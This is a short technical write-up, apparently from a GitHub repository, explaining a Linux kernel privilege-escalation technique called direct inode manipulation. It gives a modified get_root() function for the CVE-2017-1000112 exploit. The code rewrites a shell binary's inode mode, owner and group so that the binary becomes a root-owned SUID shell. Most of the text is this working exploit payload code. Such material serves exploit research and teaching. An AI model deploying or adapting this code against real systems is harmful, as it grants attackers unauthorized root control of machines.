 direct inode manipulation
=========================

The idea of direct inode manipulation is the following:
1) Create a shell binary
2) Exploit the vulnerability and change shell's inode (file) properties so it will be owned by root:root with SUID bit set

Here is the modified `get_root()` function of the original CVE-2017-1000112 exploit:

~~~
void get_root(void) {
	struct path path = { 0 };
	if (!user_path_at_empty(AT_FDCWD, SHELL, 0, &path, NULL)) {
		void *inode = (void *)(*(unsigned long *)(path.dentry + 48)); // dentry->d_inode
		*(unsigned short *)(inode + 0) = 0104755; // inode->i_mode
		*(unsigned   int *)(inode + 4) = 0; // inode->i_uid
		*(unsigned   int *)(inode + 8) = 0; // inode->i_gid
		path_put(&path);
	}
}
~~~
